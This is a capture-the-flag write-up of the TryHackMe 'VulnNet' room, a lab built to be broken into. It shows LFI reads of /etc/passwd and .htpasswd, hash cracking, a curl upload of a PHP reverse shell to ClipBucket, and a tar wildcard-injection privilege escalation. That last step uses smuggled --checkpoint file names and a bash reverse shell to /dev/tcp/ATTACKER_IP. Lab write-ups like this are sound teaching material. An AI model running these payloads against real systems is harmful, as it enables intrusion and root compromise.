



|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |   Medium   |  |   10.10.88.20 |  | [VulnNet](https://tryhackme.com/room/vulnnet1) |  |

### [ Setup ]

Before doing anything, let's go ahead and update our /etc/hosts file:


---

### [ What is the user flag? (user.txt)  ]

As always, we start off by conducting a full `nmap` scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.88.20
```

**Results:**

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ea:c9:e8:67:76:0a:3f:97:09:a7:d7:a6:63:ad:c1:2c (RSA)
| ssh-rsa 
[REDACTED]
|   256 0f:c8:f6:d3:8e:4c:ea:67:47:68:84:dc:1c:2b:2e:34 (ECDSA)
| ecdsa-sha2-nistp256 
[REDACTED]
|   256 05:53:99:fc:98:10:b5:c3:68:00:6c:29:41:da:a5:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKNuqHl39hJpIduBG9J7QwetpgO1PWQSUDL/rvjXPiWw
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 8B7969B10EDA5D739468F4D3F2296496
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: VulnNet
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the results, we can see that there are only 2 ports open: **22 (SSH)** and **80 (HTTP)**

Let's check out the HTTP Website:


We have the website of a company called VulnNet Entertainment.

I first tried to check for any low-hanging fruit in places like the robots.txt file and the source code. Unfortunately, there was nothing of interest.

Next, I noticed that there was a login page:


I tried to sign up for a new account, but the signup functionality does not work. I also didn't know any valid credentials, so this was a dead-end.

Next, I decided to run a `gobuster` scan to enumerate any hidden directories:

```
gobuster dir -u http://vulnnet.thm/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,html,txt -t 25
```


While there weren't any directories that looked particularly interesting, I did manage to find some notable Javascript files in the **/js** directory:


There are 2 js files: **index__7ed54732.js** and **index__d8338055.js**.

Let's take a look at the first file: **index__7ed54732.js**:


The code is really unreadable right now, so let's pass it through a [Javascript beautifier](https://beautifier.io/):


Much better! 

Analyzing the code, we find an interesting subdomain:


We can confirm that this subdomain is live with another Gobuster scan. This time, we use the `vhost` scan mode:

```
gobuster vhost -u http://vulnnet.thm/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 25
```


The subdomain is indeed live, but we get a **401** status code (Unauthorized). Nevertheless, let's add the domain into our /etc/hosts file:


If we visit the sub-domain, we get a prompt to authenticate:


Look's like we'll need to obtain some credentials.

Next, let's take a look at the other javascript file: **index__d8338055.js**:


Within the code, there is a specific url that catches my attention. Perhaps the `referer` parameter is susceptible to local file inclusion (LFI)?

Let's test this out using `curl`:

```
curl http://vulnnet.thm/index.php?referer=/etc/passwd
```



Great, LFI works! From the /etc/passwd file, we know that there is a user called **server-management** on the machine.

Let's try to read some credentials that we can use to login into `http://broadcast.vulnnet.thm`. These creds will normally be stored in the **.htpasswd** file. 

Using [Wappalyzer](https://www.wappalyzer.com/), we find out that the web server is running Apache2:


Apache2 configuration files are normally stored in **/etc/apache2/**. Let's see if we can read the .htpasswd file:

```
curl http://vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd
```


We managed to obtain a set of credentials! The password is hashed, but we can easily crack it using `john`.

```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```


The credentials is:

> developers : 9972761drmfsls

With these credentials, we can now log into `http://broadcast.vulnnet.thm`:


And we are brought to a ClipBucket website.

The first thing I did was to search for any existing vulnerabilities for Clipbucket. I used `searchsploit` to do so.


We're dealing with **ClipBucket 4.0**, so the exploit that interests me is the last one: `ClipBucket < 4.0.0 - Release 4902 - Command Injection / File Upload / SQL Injection`.

Let's check out how the exploit works:


Essentially, we are able to upload arbitrary files and inject OS commands **without being authenticated** using either the **file_uploader.php** or **beats_uploader.php** scripts. We can also carry out SQL injections, although that is unnecessary for this room.

With this in mind, let's try to upload a reverse shell script so that we can gain an initial foothold into our target.

*(I'll be using the PHP reverse shell script by [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell))*

To upload the script (named shell.php), we run the following command:

```
curl -u developers:9972761drmfsls -F "file=@shell.php" -F "plupload=1" -F "name=shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"
```

*(`-u` is used to specify a username and password for authentication, which we need in our case)*


Nice, the upload was successful! We can see that our reverse shell script has been saved as **16399797456ddaad.php** in a file directory called **CB_BEATS_UPLOAD_DIR** on the machine.

Now we need to locate the file so that we can access and execute it. Doing some research, I found this [exploit](https://packetstormsecurity.com/files/146913/ClipBucket-beats_uploader-Unauthenticated-Arbitrary-File-Upload.html).

**Snippet of exploit:**


From the exploit, we can see that our uploaded file will be stored in **/actions/CB_BEATS_UPLOAD_DIR/**.

With that, I set up a netcat listener and opened the reverse shell by visiting: 

`http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/16399797456ddaad.php`


And we're in :smile:

As expected, there is a user called **server-management** on the machine, but we are unable to access their home directory.

I did some manual enumeration of the machine, eventually finding an interesting cronjob in /etc/crontab:


There is a script called `backupsrv.sh` that is being run **every 2 minutes** by root! Let's take a look at this script:


The script basically uses `tar` to compress the contents of **/home/server-management/Documents** and saves the result to **/var/backups**. I already have an idea of how to exploit this, but we first need to log into server-management's account so that we can access his **Documents** directory.

For now, let's check out **/var/backups**:


There's an interesting file owned by server-management called **ssh-backup.tar.gz**.

While we cannot directly unzip this file, we can simply download it onto our local machine and unzip it there!



The zip file actually contains the SSH private key of server-management! We can now use it to log into server-management's account:


Hmmm we need a passphrase. We can use `ssh2john` and `john` to crack the passphrase:

```
/usr/share/john/ssh2john.py id_rsa > ssh_hash
john ssh_hash --wordlist=/usr/share/wordlists/rockyou.txt
```


And we've got the passphrase:

> oneTWO3gOyac

We can now log into server-management's account:


We can then obtain the **user flag** from server-management's home directory:



---

### [ What is the root flag? (root.txt) ]

Remember the **backupsrv.sh** script from earlier?

There is a line in the script that is most definitely our privesc vector:


We can see that the **wildcard operator (*)** is used. 

Further down the script, there is this line of code:


This can basically be expanded into: `tar czf /var/backups/<file_name> *`

*(Note that the script has already `cd` into the /home/server-management/Documents directory at this point.)*

If we look at [GTFOBins](https://gtfobins.github.io/gtfobins/tar/), we can find the following exploit for `tar`:


Thus, we can open up a root shell if we can ensure that the `tar` command in backupsrv.sh is executed with `--checkpoint=1` and `--checkpoint-action=exec=/bin/sh`. 

Even though we do not have the permissions to directly write over backupsrv.sh, we can however create some files in **/home/server-management/Documents** with the names `--checkpoint=1` and `--checkpoint-action=exec=/bin/sh`.

Because `*` is used, it will be replaced with the names of all the files in /home/server-management/Documents, including our created files. These files will then be recognized as the arguments in the `tar` command, instead of as file names.

---

**How wildcard operator (*) works:**

*For eg, we have a directory with two files: a.txt and b.txt.*

*If we do `rm *`, this basically becomes `rm a.txt b.txt`*

*If we now have a file named -rf, then it will be recognised as a command-line argument as the command now becomes `rm -rf a.txt b.txt`*

---

Let's carry out the exploit:

```
cd /home/server-management/Documents
touch -- --checkpoint=1
echo $'#!/bin/bash\nbash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' > shell.sh
touch -- --checkpoint-action=exec=bash\ shell.sh
```

*(The `--` is used to denote the end of options for the `touch` command. This allows us to have the `--` characters in our filename)*

This is how the directory looks like after creating the files:


With that done, we just have to wait for 2 minutes to pass before a root shell was opened:


We can then obtain the **root flag** from /root:


